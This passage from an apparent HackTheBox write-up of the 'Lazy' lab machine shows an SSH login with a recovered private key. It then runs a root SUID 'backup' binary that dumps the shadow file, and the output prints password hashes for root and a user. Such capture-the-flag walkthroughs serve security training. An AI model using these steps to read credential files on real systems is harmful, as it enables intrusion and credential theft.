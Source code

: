 According to this [article](https://forum.hackthebox.com/t/valentine-ssh-trouble/253323/3), we have to add a flag of `-o PubkeyAcceptedKeyTypes=+ssh-rsa` when using SSH to bypass this message.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# ssh -i id_rsa mitsos@10.10.10.18 -o PubkeyAcceptedKeyTypes=+ssh-rsa
...
mitsos@LazyClown:~$ 
```

# Privilege Escalation

Looking around the files, there’s an interesting root SUID binary file `backup`. 

```bash
mitsos@LazyClown:~$ ls -la
total 64
drwxr-xr-x 5 mitsos mitsos 4096 Dec  7 17:43 .
drwxr-xr-x 3 root   root   4096 Dec  7 16:27 ..
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw------- 1 mitsos mitsos  224 May  3  2017 .bash_history
-rw-r--r-- 1 root   root      1 May  3  2017 .bash.history
-rw-r--r-- 1 mitsos mitsos  220 May  2  2017 .bash_logout
-rw-r--r-- 1 mitsos mitsos 3637 May  2  2017 .bashrc
drwx------ 2 mitsos mitsos 4096 Dec  7 16:27 .cache
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7 17:43 cat
-rw------- 1 mitsos mitsos 2524 May  2  2017 .gdb_history
-rw-rw-r-- 1 mitsos mitsos   22 May  2  2017 .gdbinit
-rw------- 1 root   root     46 May  2  2017 .nano_history
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7 16:27 peda
-rw-r--r-- 1 mitsos mitsos  675 May  2  2017 .profile
drwxrwxr-x 2 mitsos mitsos 4096 Dec  7 16:27 .ssh
-r--r--r-- 1 mitsos mitsos   33 Apr 25 06:23 user.txt

mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```
